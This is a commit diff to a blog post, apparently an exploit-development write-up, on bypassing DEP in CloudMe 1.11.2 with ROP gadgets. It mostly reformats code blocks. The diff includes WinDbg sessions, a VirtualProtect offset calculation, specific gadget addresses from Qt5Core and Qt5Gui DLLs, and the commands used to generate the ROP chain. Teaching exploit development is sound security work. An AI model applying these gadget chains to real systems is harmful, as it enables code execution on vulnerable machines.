

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 1400 px high, scrolled down 53288 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
DEP Bypass using ROP chains

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -1268,7 +1268,8 @@
 Below is the debugging session with <b>WinDbg</b> which shows the ROP gadgets in action:
 </p>
 
-```
+
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> bp 0x6998fb2e
 *** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll -
 0:000> bl
@@ -1371,8 +1372,7 @@
 cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000212
 Qt5Core!ZNK12QEasingCurve4typeEv+0x4:
 68ae8a24 c3 ret
-```
-
+</pre>
 
 <p align="justify">
 As seen above in red, after the <b>MOV EAX,DWORD PTR [EAX]</b> instruction is executed, the leaked kernel address is now loaded into EAX. Below we are doing the same demonstration with <b>Immunity Debugger</b> which shows the leaked <b>kernel32</b> address at the stack pane below:
@@ -1397,10 +1397,11 @@
 
 At this section we will see how to calculate the address of **VirtualProtect** in order to bypass DEP. First let’s find the address of **VirtualProtect** using **WinDBG.&nbsp;**
 
-```
+
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:019\> x kernel32!VirtualProtect
-762a20d8 kernel32!VirtualProtect (<no parameter info>)
-```
+762a20d8 kernel32!VirtualProtect (< no parameter info >)
+</pre>
 
 
 <p align="justify">
@@ -1408,10 +1409,9 @@
 </p>
 
 
-```
-0:019\> ? kernel32!VirtualProtect - 0x762f3c45
-Evaluate expression: -334701 = fffae493
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+0:019> ? kernel32!VirtualProtect - 0x762f3c45
+</pre>
 
 
 <p align="justify">
@@ -1419,11 +1419,11 @@
 </p>
 
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0x68a812c9 # POP EBP # RETN [Qt5Core.dll]
 0xfffae493 # Offset
 0x61ba8137 # ADD EAX,EBP # RETN [Qt5Gui.dll]
-```
+</pre>
 
 <p align="justify">
 At the first gadget, EBP is assigned with the hex value <b>0xfffae493</b>. Then, adding the two values from EAX and EBP will then give us the address of <b>VirtualProtect</b> and the result will be saved in EAX.
@@ -1491,7 +1491,7 @@
 </p>
 
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> bp 0x6998fb2e
 *** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll -
 0:000> bl
@@ -1619,7 +1619,7 @@
 cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000207
 Qt5Gui!ZN7QWindow4setXEi+0x79:
 61ba8139 c3 ret
-```
+</pre>
 
 <p align="justify">
 As shown above in red, after executing the last gadget, the address of <b>VirtualProtect</b> ( <b>0x762a20d8</b> ) will be stored in the <b>EAX</b> register.
@@ -1633,7 +1633,7 @@
 This section shows how to bypass DEP by using <b>VirtualProtect</b> in order to set the access protection to <b>PAGE_EXECUTE_READWRITE</b> on the memory region containing the shellcode. The following parameters must be specified in order to successfully execute <b>VirtualProtect</b> :
 </p>
 
-```
+```c
 BOOL WINAPI VirtualProtect(
           __in   LPVOID lpAddress,
           __in   SIZE_T dwSize,
@@ -1657,7 +1657,7 @@
 </p>
 
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 Push EAX
 Push ECX
 Push EDX
@@ -1666,11 +1666,12 @@
 Push EBP
 Push ESI
 Push EDI
-```
+</pre>
 
 So, in our case the arguments of **VirtualProtect** will be pushed in stack using **PUSHAD** as follows.
 
-```
+
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 Stack:
 EAX (NOP)
 ECX (lpflOldProtect)
@@ -1680,15 +1681,16 @@
 EBP (ReturnAddress)
 ESI (VirtualProtect)
 EDI (ROP NOP)
-```
+</pre>
 
 From **Windbg** , using **mona.py** we can generate the ROP chain as follows
 
-```
+
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> !load pykd.pyd
 0:000> !py mona rop -n -o
 [...]
-```
+</pre>
 
 
 <p align="justify">
@@ -1700,9 +1702,10 @@
 Also one missing gadget added to the chain ( <b>jmp esp</b> ) which has been produced by <b>ROPgadget</b> tool :
 </p>
 
-```
+
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 python ROPgadget.py --binary "C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\libwinpthread-1.dll" --only "jmp" --depth 5 --badbytes "00"
-```
+</pre>
 
 The following snippet shows the setup of **VirtualProtect** using ROP gadgets
 
````
